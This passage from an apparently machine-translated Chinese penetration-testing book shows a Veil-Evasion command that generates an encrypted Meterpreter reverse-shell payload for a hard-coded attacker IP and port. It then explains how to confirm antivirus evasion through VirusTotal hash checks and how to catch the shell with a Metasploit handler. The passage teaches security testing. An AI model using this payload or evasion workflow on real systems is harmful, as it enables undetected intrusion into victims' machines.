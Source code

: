 也可以使用以下选项直接从命令行创建该漏洞：

```
 kali@linux:~./Veil-Evasion.py -p python/shellcode_inject/aes_encrypt  -o -output --msfpayload windows/meterpreter/reverse_tcp --msfoptions LHOST=192.168.43.134 LPORT=4444

```

一旦漏洞被创建，测试人员应根据 VirusTotal 验证有效负载，以确保其在目标系统上放置时不会触发警报。如果有效负载样本直接提交给 VirusTotal，并且其行为将其标记为恶意软件，则**防病毒**（**AV**）供应商可在一小时内发布针对提交内容的签名更新。这就是为什么用户被明确警告“不要向任何在线扫描仪提交样本！”

面纱规避允许测试人员使用安全检查来对抗 VirusTotal。创建任何有效负载时，将创建一个 SHA1 哈希并将其添加到位于`~/veil-output`目录中的`hashes.txt`。测试人员可以调用`checkvt`脚本将哈希提交给 VirusTotal，VirusTotal 将根据其恶意软件数据库检查 SHA1 哈希值。如果面纱规避有效载荷触发匹配，则测试仪知道目标系统可能会检测到它。如果未触发匹配，则漏洞利用负载将绕过防病毒软件。使用`checkvt`命令成功查找（AV 无法检测）如下所示：

![Bypassing IDs and antivirus detection](img/3121OS_04_26.jpg)

到目前为止，测试支持这样一个发现，即如果`checkvt`在 VirusTotal 上没有找到匹配项，则目标的防病毒软件将不会检测到有效负载。要与 Metasploit 框架一起使用，请使用`exploit/multi/handler`并将`PAYLOAD`设置为`windows/meterpreter/reverse_tcp`（与面纱规避有效载荷选项相同），同时使用与面纱规避相同的 LHOST 和 LPORT。当侦听器正常工作时，将漏洞发送到目标系统。当侦听器启动它时，它将建立一个反向 shell，返回到攻击者的系统。

# 总结

在本章中，我们将重点介绍利用漏洞作为一种工具，它可以将侦察结果转换为确定的操作，从而在测试人员和目标之间建立访问。

Kali 提供了多种工具来促进开发、选择和激活漏洞利用，包括内部漏洞利用数据库以及简化漏洞利用的使用和管理的几种框架。在这些框架中，Metasploit 框架和 Armitage 尤为重要；然而，面纱规避通过其绕过防病毒检测的能力增强了两者。

接下来的两章将重点介绍攻击者杀伤链中最重要的部分，即攻击后活动。这是攻击者实现其目标的攻击部分。典型的后利用活动包括盗窃和过滤数据（专有或财务信息）、利用糟糕的访问控制进行横向升级，以及通过盗窃用户凭据进行纵向升级。